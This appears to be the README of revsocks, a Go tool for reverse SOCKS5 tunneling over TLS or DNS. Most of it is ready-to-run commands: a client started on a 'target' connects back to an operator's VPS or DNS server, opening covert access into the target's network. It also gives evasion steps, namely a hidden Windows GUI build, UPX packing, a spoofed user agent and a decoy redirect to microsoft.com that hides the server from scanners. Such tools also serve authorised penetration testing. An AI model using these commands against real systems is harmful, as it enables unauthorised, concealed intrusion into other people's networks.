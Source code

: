 [![CircleCI](https://circleci.com/gh/kost/revsocks.svg?style=svg)](https://circleci.com/gh/kost/revsocks)
[![Codacy Badge](https://api.codacy.com/project/badge/Grade/3c687bcd445e4a828c914e4e2384196e)](https://www.codacy.com/manual/kost/revsocks?utm_source=github.com&utm_medium=referral&utm_content=kost/revsocks&utm_campaign=Badge_Grade)

# revsocks

Reverse socks5 tunneler with SSL/TLS and proxy support (without proxy authentication and with basic/NTLM proxy authentication)
Based on <https://github.com/brimstone/rsocks> and <https://github.com/llkat/rsockstun>

# Features

-   Single executable (thanks to Go!)
-   Linux/Windows/Mac/BSD support
-   Encrypted communication with TLS
-   DNS tunneling support (SOCKS5 over DNS)
-   Support for proxies (without authentication or with basic/NTLM proxy authentication)
-   Automatic SSL/TLS certificate generation if not specified

# Architecture

-   server = locally listening socks server
-   client = client which connects back to server

## Usage

### reverse TCP

    Usage:
    1) Start on VPS: revsocks -listen :8443 -socks 127.0.0.1:1080 -pass SuperSecretPassword
    2) Start on client: revsocks -connect clientIP:8443 -pass SuperSecretPassword
    3) Connect to 127.0.0.1:1080 on the VPS with any socks5 client.
    4) Enjoy. :]

### DNS tunnel

```sh
0) setup your domain records
1) Start on the DNS server: revsocks -dns example.com -dnslisten :53 -socks 127.0.0.1:1080 -pass 52fdfc072182654f163f5f0f9a621d729566c74d10037c4d7bbb0407d1e2c64
2) Start on the target: revsocks -dns example.com -pass 52fdfc072182654f163f5f0f9a621d729566c74d10037c4d7bbb0407d1e2c64
3) Connect to 127.0.0.1:1080 on the DNS server with any socks5 client.
```

## Useful parameters

    Add params:
     -proxy 1.2.3.4:3128 - connect via proxy
     -proxyauth Domain/username:password  - proxy creds
     -proxytimeout 2000 - server and clients will wait for 2000 msec for proxy connections... (Sometime it should be up to 4000...)
     -useragent "Internet Explorer 9.99" - User-Agent used in proxy connection (sometimes it is usefull)
     -pass Password12345 - challenge password between client and server (if not match - server reply 301 redirect)
     -recn - reconnect times number. Default is 3. If 0 - infinite reconnection
     -rect - time delay in secs between reconnection attempts. Default is 30

## Options

Complete list of command line options

```
  -cert string
    	certificate file
  -connect string
    	connect address:port
  -debug
    	display debug info
  -dns string
    	DNS domain to use for DNS tunneling
  -dnsdelay string
    	Delay/sleep time between requests (200ms by default)
  -dnslisten string
    	Where should DNS server listen
  -listen string
    	listen port for receiver address:port
  -pass string
    	Connect password
  -proxy string
    	proxy address:port
  -proxyauth string
    	proxy auth Domain/user:Password
  -proxytimeout string
    	proxy response timeout (ms)
  -q	Be quiet
  -recn int
    	reconnection limit (default 3)
  -rect int
    	reconnection delay (default 30)
  -socks string
    	socks address:port (default "127.0.0.1:1080")
  -useragent string
    	User-Agent
  -verify
    	verify TLS connection
  -version
    	version information
```

# Requirements

-   Go 1.4 or higher
-   Few external Go modules (yamux, go-socks5 and go-ntlmssp)

# Compile and Installation

Linux VPS

-   install Golang: apt install golang make

```sh
make
```

launch:

```sh
./revsocks -listen :8443 -socks 127.0.0.1:1080 -pass Password1234
```

Windows client:

-   download and install golang

```sh
go get
go build
```

## Windows optional

optional: to build as Windows GUI:

```sh
go build -ldflags -H=windowsgui
```

You can also compress exe - just use any exe packer, ex: UPX

```sh
upx revsocks
```

## Usage examples

```sh
revsocks -connect clientIP:8443 -pass Password1234
```

or with proxy and user agent:

```sh
revsocks -connect clientIP:8443 -pass Password1234 -proxy proxy.domain.local:3128 -proxyauth Domain/userpame:userpass -useragent "Mozilla 5.0/IE Windows 10"
```

Client connects to server and send agentpassword to authorize on server. If server does not receive agentpassword or reveive wrong pass from client (for example if spider or client browser connects to server ) then it send HTTP 301 redirect code to www.microsoft.com

## Custom certificate

Generate self-signed certificate with openssl:

```sh
openssl req -new -x509 -keyout server.key -out server.crt -days 365 -nodes
```

## Debug

For debugging (especially DNS part):
```sh
go build -tags debug
```
